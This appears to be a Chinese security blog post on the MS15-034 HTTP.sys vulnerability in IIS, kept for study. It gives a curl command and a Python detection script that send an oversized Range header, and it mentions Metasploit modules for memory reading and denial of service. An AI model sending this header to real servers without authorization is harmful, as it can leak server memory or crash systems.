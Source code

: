 ```yaml
---
title: HTTP.SYS远程执行代码漏洞（MS15-034 | CVE-2015-1635）
date: 2019-11-13 16:07:29
categories:
- Vulnerabilities
- WEB
tags:
- RCE
---
```

&emsp;&emsp;这两天进行了一些漏洞验证的工作，遇到很多的很老的漏洞，但是基本都是没什么利用价值的信息泄露漏洞或者需要精心构造苛刻利用条件的漏洞。有趣的是发现了一个普遍存在的漏洞，时间也比较久远了，但是这个漏洞的危害性很高，而且在测试中发现基本该漏洞被漏扫设备或软件扫描出来准确度非常高。高危却又大范围存在，这个漏洞引起了我浓厚的兴趣。

## 漏洞描述

&emsp;&emsp;在2015年4月安全补丁日，微软发布的众多安全更新中，修复了HTTP.sys中一处允许远程执行代码漏洞，编号为：CVE-2015-1635（MS15-034 ）。利用HTTP.sys的安全漏洞，攻击者只需要发送恶意的http请求数据包，就可能远程读取IIS服务器的内存数据，或使服务器系统蓝屏崩溃。根据公告显示，该漏洞对服务器系统造成了不小的影响，主要影响了包括Windows 7、Windows Server 2008 R2、Windows 8、Windows Server 2012、Windows 8.1 和 Windows Server 2012 R2在内的主流服务器操作系统。

<!-- more -->

## 漏洞测试

### 使用curl进行测试

&emsp;&emsp;测试命令：

```bash
curl http://xxxxxx -H "Host: xxxxxx" -H "Range: bytes=0-18446744073709551615"
```

&emsp;&emsp;测试结果：

![](/img/MS15-034/MS15-034-1.png)

### 使用POC测试

&emsp;&emsp;POC代码为：

```Python
# -*- coding: utf-8 -*-
 
import requests
def identify_iis(domain):
 
    req = requests.get(str(domain))
 
    remote_server = req.headers['server']
 
    if 'Microsoft-IIS' in remote_server:
 
        print('服务是' + remote_server)
 
        ms15_034_test(str(domain))
 
    else:
 
        print('服务器不是IIS\n可能是: ' + remote_server)
 
def ms15_034_test(domain):
 
    print('启动vuln检查!')
 
    headers = {'Host': 'stuff','Range': 'bytes=0-18446744073709551615'}
 
    req = requests.get(str(domain), headers = headers)
 
    if 'Requested Range Not Satisfiable' in req.content:
 
        print '存在HTTP.sys远程代码执行漏洞!'
 
    elif 'The request has an invalid header name' in req.content:
 
        print '漏洞已修复'
 
    else:
 
        print 'IIS服务无法显示漏洞是否存在，需要手动检测'
 
if __name__== '__main__':
 
    usr_domain = raw_input('输入域名扫描: ')
    identify_iis(usr_domain)

```

## 漏洞利用

### MSF读取服务器内存

&emsp;&emsp;MSF中存在该漏洞利用模块，可以读取服务器内存数据，截图如下：

![](/img/MS15-034/MS15-034-2.png)

### MSF实现DOS攻击

&emsp;&emsp;MSF中存在该漏洞利用模块，可以实现DOS攻击，由于是实际环境，出于安全因素考虑，没有实际执行攻击。可以搭建本地实验环境，我用Win7测试后会出现蓝屏现象，生产环境中不要贸然尝试，注意安全(｡･∀･)ﾉﾞ。